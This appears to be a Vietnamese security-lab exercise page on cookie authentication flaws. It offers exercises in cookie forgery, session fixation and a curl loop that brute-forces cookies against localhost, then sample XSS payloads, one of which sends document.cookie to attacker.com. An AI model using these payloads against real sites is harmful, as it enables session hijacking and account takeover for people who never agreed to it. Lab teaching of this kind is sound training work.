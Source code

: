 ## 🎓 Bài tập nâng cao

1. **Thử đăng nhập với username không tồn tại:**

    ```javascript
    document.cookie = "auth=hacker:anypassword; path=/";
    ```

2. **Xem cookie của người khác (XSS):**

    ```javascript
    alert(document.cookie);
    ```

3. **Session fixation:**

    - Set cookie trước khi login
    - Login với tài khoản hợp lệ
    - Cookie vẫn giữ nguyên?

4. **Brute force qua cookie:**
    ```bash
    for i in {1..100}; do
      curl -H "Cookie: auth=user$i:password$i" http://localhost:3000/lab/auth
    done
    ```

## 🎓 XSS Payloads Mẫu

### 1. Basic Alert

```html
<script>
    alert("XSS");
</script>
<script>
    alert(document.cookie);
</script>
```

### 2. Cookie Stealer

```html
<script>
    fetch("/api/steal?cookie=" + document.cookie);
</script>
```

### 3. External Server (Real Attack)

```html
<script>
    var img = new Image();
    img.src = "http://attacker.com/steal?cookie=" + document.cookie;
</script>
```
